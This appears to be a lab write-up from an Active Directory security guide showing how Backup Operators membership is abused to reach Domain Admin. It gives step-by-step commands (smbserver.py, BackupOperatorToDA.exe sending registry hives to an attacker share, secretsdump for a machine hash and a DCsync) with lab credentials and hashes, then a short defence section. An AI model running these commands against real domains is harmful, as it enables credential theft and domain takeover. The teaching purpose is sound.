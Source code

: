 # Backup Operators

## Configuring

### Prerequisite&#x20;

The membership of the "Backup Operators" group is configured in the Dumping DPAPI page.

{% content-ref url="../../misc/page-3 (1).md" %}
[page-3 (1).md](<../../misc/page-3 (1).md>)
{% endcontent-ref %}

## Attacking

### How it works

The Backup Operators group is a built in group in AD. By default it has no members.

Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. They also have the permissions needed to replace files (including operating system files) on domain controllers.

One of the known attacks is to copy the ntds.dit file and extract all the domain credentials from it.

{% hint style="info" %}
I wasn't able to copy the `ntds.dit` file. There are some write-ups such as [these](https://coldfusionx.github.io/posts/Blackfield-HTB/) describing how to abuse the "Backup Operator" group through making a shadow copy, but these require winrm access to the DC.&#x20;

In my attack we will use the tool BackupOperatorToDA from [mpgn](https://github.com/mpgn/BackupOperatorToDA).
{% endhint %}

### Tools

* [Smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
* [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)

### Executing the attack

#### The small stuff

* Login to the DC locally (Not through RDP but only locally):

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1).png>)

* List files on the Domain Controller:

![](<../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

* Copy files from the Domain Controller:

![](<../../../.gitbook/assets/image (67) (1) (1) (1).png>)

#### To Domain Admin!

From our enumeration when we gained access to the `sa_backup` account we know the user is part of the Backup Operators group. We can abuse the permissions by making a copy of the SAM, SYSTEM and SECURITY hive, extract the machine account hash and then execute a DCsync attack.

1. Login to `DATA01` as `sa_backup` with the password `LS6RV5o8T9`.
2. Run the following command to check if the `sa_backup` user is member of the `Backup Operators` group.

![](<../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

3\. One of the requirements is to host a public SMB share, we can do this with the smbserver.py script from Impacket. This will create a share on `\\192.168.248.2\share`.

```
python3 /opt/impacket/examples/smbserver.py share ~/adlab -smb2support
```

![](<../../../.gitbook/assets/image (71) (1) (1) (1) (1) (1) (1) (1) (1).png>)

4\. The next step is to execute the BackupOperatorToDa.exe tool to retrieve the the SAM, SYSTEN and SECURITY HIVE and save them in our created public share:

```
.\BackupOperatorToDA.exe -t \\dc03.secure.local -u sa_backup -p LS6RV5o8T9 -d secure.local -o \\192.168.248.2\share\
```

![](<../../../.gitbook/assets/image (68) (1) (1).png>)

{% hint style="info" %}
If you are using another share, make sure the share is writeable by anyone otherwise the DC won't be able to write its files.
{% endhint %}

5\. If we check in our directory `~/adlab` we can see the files: (for the screenshot I made a copy in the HIVE directory)

![](<../../../.gitbook/assets/image (73) (1) (1) (1) (1) (1) (1).png>)

6\. The next step is to run SecretDump.py to retrieve the machine account NTLM hash out of these HIVE dumps:

```
secretsdump.py LOCAL -system ~/adlab/SYSTEM -security ~/adlab/SECURITY -sam ~/adlab/SAM
```

![](<../../../.gitbook/assets/image (53) (1).png>)

7\. The last step is to run Secretsdump.py to run DCsync and retrieve all the domain account hashes:

```
secretsdump.py 'secure.local/dc03$'@dc03.secure.local -hashes aad3b435b51404eeaad3b435b51404ee:ba6414d4e6ce546465b256950282c7f3
```

![](<../../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

We retrieved the NTLM account hash of every user in the domain and could authenticate with these to the domain controller. As Administrator for example which is Domain Admin.

## Defending

### Recommendations

* Never use any of the "Operator" groups. Create specialised groups and minimal permissions for the tasks the different IT departments/roles need. Use the least privilege principal.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators" %}

